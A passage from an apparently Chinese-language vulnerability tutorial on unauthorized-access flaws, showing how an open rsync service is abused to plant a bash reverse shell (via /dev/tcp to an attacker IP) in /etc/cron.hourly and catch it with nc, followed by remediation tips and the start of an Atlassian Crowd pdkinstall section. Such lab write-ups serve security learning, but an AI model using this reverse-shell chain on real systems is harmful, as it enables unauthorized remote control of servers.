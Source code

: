 2、反弹shell

```shell
# 下载crontab配置文件
rsync rsync://172.16.2.250:873/src/etc/crontab ./
# 该环境crontab中
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
表示每小时的第17分钟执行run-parts --report /etc/cron.hourly
```

```shell
# 写入bash并赋权
vim nc
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.144.135/9999 0>&1
chmod 777 nc
# 将文件上传至/etc/cron.hourly
rsync -av nc rsync://172.16.144.135:873/src/etc/cron.hourly
```

![image-20200707115044398](/images/Unauthorized/image-20200707115044398.png)

```shell
# 本地监听9999
nc -lnvp 9999
```

![image-20200707121738127](/images/Unauthorized/image-20200707121738127.png)

##### 漏洞修复

1、账户认证：正确配置认证用户名及密码

2、权限控制：使用合理的权限

3、网络访问控制：控制接入源ip

4、数据加密传输等

#### Atlassian Crowd 未授权访问

##### 漏洞描述

​	Atlassian Crowd和Atlassian Crowd Data Center都是澳大利亚Atlassian公司的产品。Atlassian Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。

##### 漏洞验证

0、环境搭建

```shell
wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
unzip atlassian-crowd-3.4.3.zip
cd atlassian-crowd-3.4.3
vim crowd-webapp/WEB-INF/classes/crowd-init.properties
//取消注释
crowd.home=/var/crowd-home
```
